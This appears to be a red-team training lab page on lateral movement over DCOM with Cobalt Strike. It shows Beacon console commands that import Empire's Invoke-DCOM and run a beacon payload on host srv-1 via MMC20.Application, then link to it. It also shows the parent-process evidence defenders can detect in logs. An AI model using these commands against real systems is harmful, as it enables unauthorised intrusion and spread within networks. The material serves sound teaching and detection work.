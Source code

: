 Beacon has no built-in capabilities to interact over Distributed Component Object Model (DCOM), so must use an external tool such as [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1). We'll see in a later module how this can be integrated into the `jump` command.
```shell
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

DCOM is more complicated to detect, since each "Method" works in a different way. In the particular case of `MMC20.Application`, the spawned process will be a child of `mmc.exe`.
```shell
ProcessId: 952
Image: C:\Windows\beacon-smb.exe
ParentImage: C:\Windows\System32\mmc.exe
```

Processes started via DCOM may also be seen where the parent is `svchost.exe` (started with the command line `-k DcomLaunch`).

>Move laterally to SRV-1 via DCOM and investigate the logs in Kibana.

